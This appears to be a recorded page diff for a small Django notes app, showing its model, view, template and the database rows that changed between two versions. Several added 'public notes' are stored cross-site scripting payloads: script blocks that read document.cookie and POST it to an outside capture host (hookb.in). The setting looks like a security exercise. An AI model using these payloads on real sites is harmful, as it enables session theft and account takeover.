
Page / (signed in) on the earlier database version.

Same page on the later database version.
### notes/models.py (models this page shows)
class Note(models.Model):
    note_text = models.CharField(max_length = 200)
    pub_date = models.DateTimeField('date published')
    owner = models.ForeignKey(User, on_delete=models.CASCADE)
    private = models.BooleanField()
    def __str__(self):
        return self.note_text

### notes/views.py (the view)
# urls.py: path('', views.index, name='index'),
@login_required
def index(request):
    user_notes = Note.objects.filter(owner_id=request.user.id)
    public_notes = Note.objects.filter(private = False).exclude(owner_id=request.user.id)
    return render(request, 'notes/index.html', { 'user_notes' : user_notes, 'public_notes' : public_notes })

### notes/templates/notes/index.html (shortened to what this page needs)
<!DOCTYPE html>
<head>
</head>
<body>
    <h1 style="color: blueviolet;">Notes</h1>
    <h3>My notes</h3>
    <ul>
        {% for note in user_notes %}
        <li>{{ note }} <a href="readnote/{{note.id}}">Raw note data</a> </li>
        {% endfor %}
    </ul>
    <br>
    <h3>Public notes from others</h3>
    <ul>
        {% for note in public_notes %}
        <li>{{ note }} <a href="readnote/{{note.id}}">Raw note data</a> </li>
        {% endfor %}
    </ul>
    <h2>Add note</h2>
    <form action='addnote/' method='POST'>
        <input type="text" name='note_text' style="margin-bottom: 8px; height: 16px;">
        <br>
        <input type="checkbox" name='public_note' style="margin-bottom: 16px;">
        <label for='private' style="margin-bottom: 16px;">Public note?</label>
        <br>
        <input type='submit'>
    </form>
    <br>
    <h2>Delete note</h2>
    <form action='deletenote/' method='POST'>
        <input type="text" name='note_text' style="margin-bottom: 8px; height: 16px;">
        <br>
        <input type='submit'>
    </form>
    <br>
    <form action='logout/' method='POST'>
        <input type='submit' value='Logout'>
    </form>
</body>

Differences in the rows shown:
removed Note: note_text "Public note from admin", shown under "My notes"
removed Note: note_text "Hi from alice", shown under "Public notes from others"
added Note: note_text "oAISUgd bv897ASd", shown under "Public notes from others"
added Note: note_text "f2sdf asdf", shown under "Public notes from others"
added Note: note_text "xhttp.open(\"POST\", \"https://hookb.in/LgPk8d3KxqhWkkrayQeE\", true); xhttp.send();", shown under "Public notes from others"
added Note: note_text "<script>xhttp.open(\"POST\", \"https://hookb.in/LgPk8d3KxqhWkkrayQeE\", true); xhttp.send();</script>", shown under "Public notes from others"
added Note: note_text "<script>const data = new FormData(); data.append(\"\", \"\"); const xhr = new XMLHttpRequest(); xhr.withCredentials = true; xhr.addEventListener(\"readystatechange\", function () { if (this.readyState === this.DONE) { console.log(this.responseText); } }); xhr.open(\"POST\", \"https://hookb.in/LgPk8d3KxqhWkkrayQeE\"); xhr.send(data);</script>", shown under "Public notes from others"
added Note: note_text "<script>const data = new FormData(); data.append(\"\", \"\"); const xhr = new XMLHttpRequest(); xhr.withCredentials = true; xhr.addEventListener(\"readystatechange\", function () { if (this.readyState === this.DONE) { console.log(this.responseText); } }); xhr.open(\"POST\", \"https://hookb.in/LgPk8d3KxqhWkkrayQeE\"); cookie = document.cookie; xhr.setRequestHeader(\"payload\", cookie); xhr.send(data);</script>", shown under "Public notes from others"
added Note: note_text "<script>const data = JSON.stringify({ \"sessionid\": document.cookie }); const xhr = new XMLHttpRequest(); xhr.withCredentials = true; xhr.addEventListener(\"readystatechange\", function () { if (this.readyState === this.DONE) { console.log(this.responseText); } }); xhr.open(\"POST\", \"https://hookb.in/LgPk8d3KxqhWkkrayQeE\"); xhr.setRequestHeader(\"Content-Type\", \"application/json\"); xhr.send(data);</script>", shown under "Public notes from others"
added Note: note_text "<script>const data = JSON.stringify({ \"sessionid\": \"cookie\" }); const xhr = new XMLHttpRequest(); xhr.withCredentials = true; xhr.addEventListener(\"readystatechange\", function () { if (this.readyState === this.DONE) { console.log(this.responseText); } }); xhr.open(\"GET\", \"https://hookb.in/LgPk8d3KxqhWkkrayQeE\"); xhr.setRequestHeader(\"Content-Type\", \"application/json\"); xhr.send(data);</script>", shown under "Public notes from others"
added Note: note_text "<script>const data = JSON.stringify({ \"sessionid\": \"cookie\" }); const xhr = new XMLHttpRequest(); xhr.withCredentials = true; xhr.addEventListener(\"readystatechange\", function () { if (this.readyState === this.DONE) { console.log(this.responseText); } }); xhr.open(\"GET\", \"https://hookb.in/LgPk8d3KxqhWkkrayQeE\"); xhr.setRequestHeader(\"Content-Type\", \"application/json\"); xhr.send(data);</script>", shown under "Public notes from others"
